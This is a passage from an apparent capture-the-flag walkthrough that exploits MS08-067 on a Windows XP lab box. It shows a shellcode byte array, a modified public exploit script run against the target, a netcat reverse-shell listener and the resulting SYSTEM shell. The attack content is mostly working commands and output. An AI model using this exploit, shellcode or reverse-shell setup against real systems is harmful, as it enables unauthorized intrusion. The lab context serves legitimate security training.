 ```
"\x50\x9d\xa4\x54\x38\x77\x2a\x67\x6f\xa9\xf8\xc6\x52\xec"
"\x90\x66\xda\x03\xaf\xf7\x7c\xda\xf5\x31\x39\x73\x8d\x14"
"\x28\x38\xc9\x74\x6c\xae\x9f\x66\x6e\xb8\x9f\x7e\x6e\xa8"
"\x9a\x66\x50\x87\x05\x0f\xbe\x01\x1c\xb9\xd8\xb0\x9f\x76"
"\xc7\xce\xa1\x38\xbf\xe3\xa9\xcf\xed\x45\x29\x2d\x12\xf4"
"\xa1\x96\xad\x43\x54\xcf\xed\xc2\xcf\x4c\x32\x7e\x32\xd0"
"\x4d\xfb\x72\x77\x2b\x8c\xa6\x5a\x38\xad\x36\xe5";
```
Edit'd my 'custom.py' and overwrote the shellcode lines accordingly.  
Made the py executable:
```
chmod +x custom.py
```
Started a listener on my attacking machine:
```
nc -nvlp 443
```
And finally, ran it against the victim box with option 7 from above (for win xp sp3):
```
python2.7 custom.py 10.10.10.4 7 445                                                                                     130 ⨯ 1 ⚙
#######################################################################
#   MS08-067 Exploit
#   This is a modified verion of Debasis Mohanty's code (https://www.exploit-db.com/exploits/7132/).
#   The return addresses and the ROP parts are ported from metasploit module exploit/windows/smb/ms08_067_netapi
#
#   Mod in 2018 by Andy Acer:
#   - Added support for selecting a target port at the command line.
#     It seemed that only 445 was previously supported.
#   - Changed library calls to correctly establish a NetBIOS session for SMB transport
#   - Changed shellcode handling to allow for variable length shellcode. Just cut and paste
#     into this source file.
#######################################################################

Windows XP SP3 English (AlwaysOn NX)

[-]Initiating connection
[-]connected to ncacn_np:10.10.10.4[\pipe\browser]
Exploit finish
```

We see that the listener picks up on the other end and we can retrieve both user and root.txt as we're running as NT Authority.
```
listen 443                 
listening on [any] 443 ...
connect to [10.10.14.12] from (UNKNOWN) [10.10.10.4] 1032
Microsoft Windows XP [Version 5.1.2600]
(C) Copyright 1985-2001 Microsoft Corp.

C:\WINDOWS\system32>
```
